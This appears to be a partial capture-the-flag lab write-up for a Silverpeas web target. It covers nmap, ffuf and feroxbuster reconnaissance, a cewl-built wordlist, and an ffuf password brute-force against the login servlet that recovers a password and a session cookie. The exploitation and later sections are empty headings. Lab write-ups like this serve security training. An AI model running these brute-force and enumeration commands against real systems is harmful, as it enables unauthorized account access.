






## Reconnaissance

### Front-End Recon


### Checking Source code 


### Web Application Enumeration
```bash
> export IP=10.10.252.132

> echo $IP
10.10.252.132
```

### Fingerprinting Web Servers


### Creating password wordlist using cewl 
```bash
> cewl http://10.10.252.132/ > passbrute.txt 
```

### Fuzzing hidden directories
```bash
 grep -ri "silverpeas" /usr/share/seclists
/usr/share/seclists/Discovery/DNS/FUZZSUBS_CYFARE_1.txt:silverpeas
/usr/share/seclists/Discovery/DNS/dns-Jhaddix.txt:silverpeas
```

```bash
> ffuf -u http://10.10.252.132:8080/silverpeas/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -e .php,.bak,.txt,.jsp,.js -fw 1

password.js             [Status: 200, Size: 2907, Words: 562, Lines: 85, Duration: 277ms]
proxy                   [Status: 200, Size: 548, Words: 64, Lines: 24, Duration: 372ms]
repository              [Status: 500, Size: 842, Words: 119, Lines: 66, Duration: 435ms]
dt                      [Status: 200, Size: 548, Words: 64, Lines: 24, Duration: 281ms]
```
## Mapping and Discovery
```bash
> nmap 10.10.252.132
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-29 00:07 EDT
Nmap scan report for 10.10.252.132
Host is up (0.28s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 9.42 seconds
```
### Service scanning 
```bash
# Nmap 7.95 scan initiated Sun Jun 29 00:14:27 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -p22,80,8080 -oN nmap.txt 10.10.252.132
Nmap scan report for 10.10.252.132
Host is up (0.27s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1b:1c:87:8a:fe:34:16:c9:f7:82:37:2b:10:8f:8b:f1 (ECDSA)
|_  256 26:6d:17:ed:83:9e:4f:2d:f6:cd:53:17:c8:80:3d:09 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Sun, 29 Jun 2025 04:15:01 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Sun, 29 Jun 2025 04:14:59 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Sun, 29 Jun 2025 04:15:00 GMT
|_    <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|_http-title: Error
```
### Adding Localhost
### Debugging Page Content
```bash
> curl -I http://10.10.252.132
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 29 Jun 2025 04:45:17 GMT
Content-Type: text/html
Content-Length: 14124
Last-Modified: Wed, 01 May 2024 16:59:11 GMT
Connection: keep-alive
ETag: "663274df-372c"
Accept-Ranges: bytes
```
### Technology Stack Identification

### Directory and File Listings
```bash
> feroxbuster -u http://10.10.252.132 -w /usr/share/seclists/Discovery/Web-Content/big.txt --scan-dir-listings
                                                                                                                                                    
200  GET  http://10.10.252.132/assets/js/breakpoints.min.js
200  GET  http://10.10.252.132/assets/css/noscript.css
200  GET  http://10.10.252.132/images/pic03.jpg
200  GET  http://10.10.252.132/assets/js/util.js
200  GET  http://10.10.252.132/assets/js/main.js
200  GET  http://10.10.252.132/assets/js/browser.min.js
200  GET  http://10.10.252.132/assets/css/main.css
403  GET  http://10.10.252.132/assets/js/
200  GET  http://10.10.252.132/assets/js/jquery.min.js
403  GET  http://10.10.252.132/assets/
403  GET  http://10.10.252.132/assets/css/
403  GET  http://10.10.252.132/images/
200  GET  http://10.10.252.132/images/pic02.jpg
200  GET  http://10.10.252.132/images/pic01.jpg
200  GET  http://10.10.252.132/
301  GET  http://10.10.252.132/assets => http://10.10.252.132/assets/
301  GET  http://10.10.252.132/assets/css => http://10.10.252.132/assets/css/
301  GET  http://10.10.252.132/images => http://10.10.252.132/images/
301  GET  http://10.10.252.132/assets/js => http://10.10.252.132/assets/js/
```
```bash
> feroxbuster -u http://10.10.252.132:8080/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --scan-dir-listings
                                                                                                                                                                                                            
302 GET http://10.10.252.132:8080/website => http://10.10.252.132:8080/website/
302 GET http://10.10.252.132:8080/console => http://10.10.252.132:8080/noredirect.html
```
```bash
403      GET        1l        1w       68c http://10.10.252.132:8080/website/
404      GET        1l        1w       72c http://10.10.252.132:8080/website/.jsp
404      GET        1l        4w       74c http://10.10.252.132:8080/website/web-inf
404      GET        1l        4w       74c http://10.10.252.132:8080/website/meta-inf
```



## Vulnerability Analysis
```bash
ffuf -u http://10.10.252.132:8080/silverpeas/AuthenticationServlet \
-X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "Login=scr1ptkiddy&Password=FUZZ&DomainId=0" \
-w passbrute.txt \
-r
```
```bash
adipiscing              [Status: 200, Size: 548, Words: 64, Lines: 24, Duration: 288ms]
```
```bash
> curl -i -X POST http://10.10.252.132:8080/silverpeas/AuthenticationServlet \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "Login=scr1ptkiddy&Password=adipiscing&DomainId=0"
```
```bash
HTTP/1.1 302 Found
Set-Cookie: JSESSIONID=B8406ONhcDDl_mUhzLdc-M69hKG8AcdxkhqmBJ2y.ebabc79c6d2a; path=/silverpeas; HttpOnly
Set-Cookie: defaultDomain=0; path=/; Max-Age=31536000; Expires=Mon, 29-Jun-2026 06:01:58 GMT
Set-Cookie: svpLogin=scr1ptkiddy; path=/; Max-Age=31536000; Expires=Mon, 29-Jun-2026 06:01:58 GMT
X-XSS-Protection: 1
x-ua-compatible: ie=edge
X-Frame-Options: SAMEORIGIN
Location: http://10.10.252.132:8080/silverpeas/Main//look/jsp/MainFrame.jsp
Content-Security-Policy: default-src 'self' blob: mailto:  https: spwebdav:  ws://10.10.252.132:8080 ; script-src 'self' blob: 'unsafe-inline' 'unsafe-eval'  https: spwebdav: https://apis.google.com; style-src 'self' 'unsafe-inline'  https: spwebdav: https://fonts.googleapis.com; style-src-elem 'self' blob: 'unsafe-inline' https://fonts.googleapis.com
Date: Sun, 29 Jun 2025 06:01:58 GMT
Connection: keep-alive
Access-Control-Allow-Origin: http://10.10.252.132:8080
X-Content-Type-Options: nosniff
Content-Length: 0
```

### Security Testing
### Enumerating APIs
### Vulnerability Identification

## Exploitation
### Post Exploitation Enumeration 
### Lateral Movement 
### Gaining Root 

## Post-Exploitation
### Flags
### Covering Tracks 

## Reporting
### Summary
